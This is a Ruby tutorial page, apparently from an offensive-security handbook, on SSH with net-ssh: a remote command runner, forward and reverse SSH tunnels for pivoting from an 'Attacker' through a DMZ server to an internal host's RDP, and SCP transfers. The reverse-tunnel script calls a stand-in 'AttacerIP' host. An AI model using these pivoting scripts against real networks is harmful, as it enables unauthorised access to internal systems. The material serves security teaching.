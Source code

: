 # SSH
Here we shows some SSH using ruby
we'll need to install net-ssh gem for that

```
gem install net-ssh
```


## Simple SSH client
This is a very basic ssh client which sends and executes commands on a remote system 
```ruby
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"
@cmd = ARGV[0]

begin
  ssh = Net::SSH.start(@hostname, @username, :password => @password)
  res = ssh.exec!(@cmd)
  ssh.close
  puts res
rescue
  puts "Unable to connect to #{@hostname} using #{@username}/#{@password}"
end
```

more
https://gist.github.com/KINGSABRI/2860989

## SSH Tunneling




### Forward SSH Tunnel

```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| ----SSH Tunnel---> | |SSH Server| <-RDP-> |Web server| |
                              |                 |                 |
                              |-----------------|-----------------|
```

Run ssh-ltnnel.rb on the **SSH Server** 

**ssh-ltunnel.rb**
```ruby
#!/usr/bin/evn ruby
require 'net/ssh'

Net::SSH.start("127.0.0.1", 'root', :password => '123132') do |ssh|

  ssh.forward.local('0.0.0.0', 3333, "WebServer", 3389)

  puts "[+] Starting SSH forward tunnel"
  ssh.loop { true }
end
```

Now connect to the **SSH Server** on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop WebServer:3333
```


### Reverse SSH Tunnel 
```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| <---SSH Tunnel---- | |SSH Server| <-RDP-> |Web server| |
  |->-|                       |                 |                 |
                              |-----------------|-----------------|
```
Run ssh-rtnnel.rb on the **SSH Server** 

**ssh-rtunnel.rb**
```ruby
#!/usr/bin/evn ruby
require 'net/ssh'

Net::SSH.start("AttacerIP", 'attacker', :password => '123123') do |ssh|

  ssh.forward.remote_to(3389, 'WebServer', 3333, '0.0.0.0')
  
  puts "[+] Starting SSH reverse tunnel"
  ssh.loop { true }
end
```

Now SS from the **SSH Server** to **localhost** on the localhost's ssh port then  connect from your localhost to your localhost on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop localhost:3333
```



## Copy files via SSH (SCP)

- To install scp gem
```
gem install net-scp
```

- Upload file 

```ruby
require 'net/scp'


Net::SCP.upload!(
    		        "SSHServer", 
                     "root",
                     "/home/rubyfu/file.txt", "/root/", 
                     :ssh => { :password => "123123" }
                )
```

- Download file 

```ruby
require 'net/scp'


Net::SCP.download!(
    		         "SSHServer", 
                     "root",
                     "/root/", "/home/rubyfu/file.txt",, 
                     :ssh => { :password => "123123" }
                  )
```




<br><br><br>
---





